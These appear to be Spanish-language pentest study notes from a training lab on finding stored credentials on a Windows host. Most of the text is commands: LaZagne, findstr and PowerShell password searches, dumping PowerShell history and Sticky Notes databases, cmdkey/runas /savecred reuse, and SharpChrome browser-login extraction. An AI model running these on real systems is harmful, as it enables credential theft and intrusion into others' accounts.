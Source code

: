 Como primer herramienta podemos buscar (si estamos por rdp) podemos usar el buscador de windows con las siguientes palabras, talvez aparezcan ficheros con contraseñas guardadas:

- Passwords	
- Passphrases	
- Keys
- Username	
- User account	
- Creds
- Users	
- Passkeys	
- Passphrases
- configuration	
- dbcredential	
- dbpassword
- pwd	
- Login	
- Credentials

Lo siguiente que podemos hacer es unsar lazagne 

https://github.com/AlessandroZ/LaZagne/releases/

Una vez que lo metimos en la pc victima lo corremos con:

    start lazagne.exe all

#### también podemos usar el findr por cmd:

    findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

#### También traer contraseñas de chrome:

    gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

#### Powershell History

    gc (Get-PSReadLineOption).HistorySavePath

#### Podemos también en un oneliner recorrer todos los archivos historicos de powershell a los que tenemos acceso

    foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

#### El archivo unnatend.xml puede tener contraseñas también

#### Buscar archivos en base a una palabra:

    findstr /spin "password" *.* 

#### Buscar con powershell
    select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password

#### BUscar una palabra en base a una extensión:
    dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

#### Extraer contraseñas de sticky notes
Las sticky notes (aunque no lo demuesten) son una base de datos.

Esta base de datos se encuentra en:

C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite

Podemos acceder a ella y luego robarla para cargarla en nuestra pc atacante o dumpearla con powershell mediante PSSQLite.
##### Powershell local
- Import-Module .\PSSQLite.psd1
- $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
- Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap

##### Linux:
- Robamos el archivo
- Corremos con strings

#### Cmdkey saved credentials
Podemos listar las keys guardadas en el cmd. En un entorno de AD podríamos llegar a encontrar contraseñas guardadas que nos permitan acceder a otros recursos con su ruta incluída.
        cmdkey /list

También podemos correr cosas como el usuario si tiene las creds guardadas en el cmd
        runas /savecred /user:inlanefreight\bob "COMMAND HERE"

#### Extraer credenciales de los browsers:
Podemos usar herramientas como sharpchrome para lograrlo
        .\SharpChrome.exe logins /unprotect



        
